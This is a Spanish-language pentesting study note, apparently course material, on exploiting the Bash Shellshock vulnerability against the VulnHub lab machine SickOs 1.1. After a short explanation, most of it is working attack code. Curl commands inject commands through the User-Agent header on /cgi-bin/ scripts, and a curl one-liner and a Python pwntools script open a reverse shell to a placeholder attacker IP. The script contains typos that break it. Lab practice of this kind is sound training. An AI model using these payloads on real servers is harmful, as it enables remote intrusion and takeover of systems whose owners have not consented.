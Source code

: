 # Ataque ShellShock

Tags: #ShellShock #OWASP #Explotacion 

Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando en la clase anterior, solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

-   **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)


## Comandos

Si encontramos un dir llamado **/cgi-bin/** lo mas probables es que podamos testear un ShellShock. 
En esos directorios debemos de buscar archivos **pl, sh, cgi,** asi como tambien sin extension. 

* [ShellShock-Attack](https://blog.cloudflare.com/inside-shellshock/)

```bash 
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; /usr/bin/whoami" 

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami


# Si al momento de ejecutar el comando anterior no nos reporta el comando, debemos de colocar un echo antes o hasta dos antes.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /usr/bin/id" 

	# Podemos colocar la ruta de cualquier comando, esperando a que la maquina tenga ese comando instalado. 


# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

	# Otra ruta del bash por si no funciona es '/usr/bin/bash' 
```


Haremos que al momento de ejecutar el programa, podamos tener una ReverShell al instante en nuestra consola.
```python
# Primero nos debemos crear un archivo python 

❯ nvim ShellShock.py

#!/usr/bin/python3

import requests
import signal
import sys
import threading 
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.68.1:3128'}
lport = 443

def shellshock_attack():
	header = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args=()).start()
	except Exception as e:
		log.error(str(e))
	
	shell = listen(lport, timeout=20).wait_for_connection()
	
	if shell.sock is None:
		lof.failure("No se pudo establecer la conexion")
		sys.exit(1)
	else: 
		shell.interactive()
```
